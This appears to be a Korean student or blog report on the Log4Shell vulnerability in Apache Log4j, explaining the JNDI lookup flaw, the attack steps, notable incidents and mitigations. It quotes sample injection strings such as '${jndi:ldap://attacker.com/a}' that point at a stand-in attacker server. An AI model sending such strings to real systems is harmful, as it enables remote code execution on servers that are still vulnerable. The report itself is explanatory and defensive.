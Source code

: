 ```yaml
---
layout: post
title:  LOG4shell 보고서
date:   2025-03-24
category: Design
image: assets/img/5_28_work/log4shell.jpg
author: 이태강
tags: news
---
```


Log4Shell이란?


Apache Log4j라는 Java 기반 로깅 라이브러리에서 발견된 원격 코드 실행(RCE) 취약점


높은 위험도: CVSS 점수 10점(최고 점수)을 받았으며, 광범위한 영향으로 인해 매우 위험합니다.


영향받는 버전: Apache Log4j 2.0-beta9부터 2.14.1 사이의 버전이 취약합니다


취약점의 원리
Log4Shell은 JNDI(Java Naming and Directory Interface) Lookup 기능의 취약점을 악용합니다:
1.JNDI Lookup의 동작: Log4j는 로그 메시지 내 특정 문자열(예: ${jndi:ldap://attacker.com/a})을 처리할 때 JNDI를 호출하여 외부 서버와 통신합니다.
2.검증 부족: JNDI 호출 시 외부 디렉토리 서비스(LDAP, RMI 등)에서 데이터를 불러오는데, 이 과정에서 입력값 검증이 제대로 이루어지지 않았습니다.
3.악성 코드 실행: 공격자는 악성 페이로드를 포함한 URL을 삽입하여 Log4j가 이를 처리하도록 유도하고, 서버가 공격자의 LDAP 서버에서 악성 클래스를 다운로드 및 실행하게 만듭니다.

공격 과정



1.악성 문자열 삽입:
공격자는 로그 메시지에 ${jndi:ldap://malicious-server}와 같은 악성 문자열을 삽입합니다. 이 문자열은 Log4j가 JNDI(Java Naming and Directory Interface) 호출로 처리하도록 설계되었습니다.
2.JNDI Lookup 수행:
Log4j는 로그 메시지를 처리할 때 JNDI Lookup 기능을 통해 외부 서버(예: ldap://malicious-server)와 통신합니다. 이때, 입력값에 대한 검증이 이루어지지 않아 공격자의 서버로 연결됩니다.
3.악성 Java 클래스 반환:
공격자의 LDAP 서버는 악성 Java 클래스 파일을 반환합니다. 이 파일은 공격자가 미리 설계한 페이로드를 포함하고 있습니다.
4.피해 서버에서 실행:
피해 서버는 반환된 Java 클래스를 역직렬화하거나 실행합니다. 이로 인해 공격자는 피해 서버에서 임의의 코드를 실행하거나 시스템을 제어할 수 있게 됩니다

  
 피해 사례
   Log4Shell은 전 세계적으로 광범위한 영향을 미쳤으며, 다음과 같은 주요 사례가 보고되었습니다:
•	Minecraft: 게임 내 채팅창에 악성 문자열을 입력해 서버를 장악하는 방식으로 Khonsari 랜섬웨어가 유포되었습니다.
•	대형 기업: Twitter, Cisco, VMware 등 여러 글로벌 기업이 영향을 받았으며, 해커들은 크립토마이닝, 파일리스 멀웨어 등을 배포했습니다.
•	국가 차원의 공격: 중국, 이란, 북한 등과 관련된 해커들이 이 취약점을 악용한 것으로 나타났습니다.


방어 방법
   Log4Shell 취약점을 방어하기 위해 다음과 같은 조치가 권장됩니다:



1.Log4j 업데이트:
Apache에서 제공한 패치 버전(2.15.0 이상)으로 즉시 업데이트합니다.
최신 버전(2.17.x)을 사용하는 것이 가장 안전합니다.

2.JNDI Lookup 비활성화:
log4j2.formatMsgNoLookups=true 옵션을 설정하거나, %m을 %m{nolookups}로 변경하여 JNDI 호출을 차단합니다.

3.네트워크 보안 강화:
IDS/IPS(침입 탐지/방지 시스템)를 사용해 의심스러운 트래픽을 차단합니다.
방화벽 규칙을 설정해 외부 LDAP/RMI 요청을 제한합니다.

4.대체 라이브러리 사용:
Logback 등 다른 로깅 라이브러리로 교체
